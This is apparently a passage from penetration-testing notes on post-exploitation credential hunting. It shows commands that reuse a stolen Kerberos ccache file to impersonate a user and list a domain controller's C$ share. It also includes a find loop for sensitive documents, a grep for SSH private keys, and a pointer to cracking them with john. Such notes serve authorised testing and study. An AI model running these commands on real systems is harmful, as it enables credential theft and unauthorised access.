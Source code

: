 #### Importing ccache files

If you find ccache files, you can import them and impersonate the user they belong to.

```bash
cp /tmp/krb5cc_647402606_91JyEJ .
export KRB5CCNAME=/root/krb5cc_647402606_91JyEJ
klist # to see if it worked
smbclient //dc01/C$ -k -c ls -no-pass
```
## Cracking Files

### Protected files

- List of extensions [here](https://fileinfo.com/filetypes/encoded)

```bash
# Find the most common files extensions
for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```
- `grep -rnw "PRIVATE KEY" /* 2>/dev/null | grep ":1"` find SSH keys
- You can crack them with john, see the page of this tool [here](../Tools/passwords-tools.md)

## Resources

- [Linux User Auth](https://tldp.org/HOWTO/pdf/User-Authentication-HOWTO.pdf)
- [Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/security/windows-authentication/credentials-processes-in-windows-authentication)
- [Passwords, Hashes and wordlist tools](https://csbygb.gitbook.io/pentips/tools/passwords-tools)  
- [Username Anarchy](https://github.com/urbanadventurer/username-anarchy)